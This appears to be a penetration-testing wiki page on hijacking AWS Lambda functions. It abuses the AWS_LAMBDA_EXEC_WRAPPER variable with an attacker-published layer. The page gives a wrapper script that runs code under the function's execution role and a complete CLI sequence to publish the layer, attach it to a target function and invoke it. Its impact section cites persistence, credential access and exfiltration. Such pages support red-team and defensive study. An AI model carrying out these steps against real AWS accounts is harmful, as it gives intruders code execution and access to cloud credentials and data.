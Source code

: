 # AWS - Lambda Exec Wrapper Layer Hijack (Pre-Handler RCE)

## Summary

Abuse the environment variable `AWS_LAMBDA_EXEC_WRAPPER` to execute an attacker-controlled wrapper script before the runtime/handler starts. Deliver the wrapper via a Lambda Layer at `/opt/bin/htwrap`, set `AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap`, and then invoke the function. The wrapper runs inside the function runtime process, inherits the function execution role, and finally `exec`s the real runtime so the original handler still executes normally.

> [!WARNING]
> This technique grants code execution in the target Lambda without modifying its source code or role and without needing `iam:PassRole`. You only need the ability to update the function configuration and publish/attach a layer.

## Required Permissions (attacker)

- `lambda:UpdateFunctionConfiguration`
- `lambda:GetFunctionConfiguration`
- `lambda:InvokeFunction` (or trigger via existing event)
- `lambda:ListFunctions`, `lambda:ListLayers`
- `lambda:PublishLayerVersion` (same account) and optionally `lambda:AddLayerVersionPermission` if using a cross-account/public layer

## Wrapper Script

Place the wrapper at `/opt/bin/htwrap` in the layer. It can run pre-handler logic and must end with `exec "$@"` to chain to the real runtime.

```bash
#!/bin/bash
set -euo pipefail
# Pre-handler actions (runs in runtime process context)
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json, os
try:
    ident = boto3.client('sts').get_caller_identity()
    print('[ht] sts identity:', json.dumps(ident))
except Exception as e:
    print('[ht] sts error:', e)
PY
# Chain to the real runtime
exec "$@"
```

## Attack Steps (CLI)

<details>
**Publish layer, attach to target function, set wrapper, invoke**

```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# 1) Package wrapper at /opt/bin/htwrap
mkdir -p layer/bin
cat > layer/bin/htwrap <<'WRAP'
#!/bin/bash
set -euo pipefail
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json
print('[ht] sts identity:', __import__('json').dumps(__import__('boto3').client('sts').get_caller_identity()))
PY
exec "$@"
WRAP
chmod +x layer/bin/htwrap
(zip -qr htwrap-layer.zip layer)

# 2) Publish the layer
LAYER_ARN=$(aws lambda publish-layer-version \
  --layer-name ht-exec-wrapper \
  --zip-file fileb://htwrap-layer.zip \
  --compatible-runtimes python3.11 python3.10 python3.9 nodejs20.x nodejs18.x java21 java17 dotnet8 \
  --query LayerVersionArn --output text --region "$REGION")

echo "$LAYER_ARN"

# 3) Attach the layer and set AWS_LAMBDA_EXEC_WRAPPER
aws lambda update-function-configuration \
  --function-name "$TARGET_FN" \
  --layers "$LAYER_ARN" \
  --environment "Variables={AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap}" \
  --region "$REGION"

# Wait for update to finish
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --query LastUpdateStatus --output text --region "$REGION")" = "Successful" ]; do sleep 2; done

# 4) Invoke and verify via CloudWatch Logs
aws lambda invoke --function-name "$TARGET_FN" /tmp/out.json --region "$REGION" >/dev/null
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 50 --region "$REGION" --query 'events[].message' --output text
```

</details>

## Impact

- Pre-handler code execution in the Lambda runtime context using the function's existing execution role.
- No changes to the function code or role required; works across common managed runtimes (Python, Node.js, Java, .NET).
- Enables persistence, credential access (e.g., STS), data exfiltration, and runtime tampering before the handler runs.


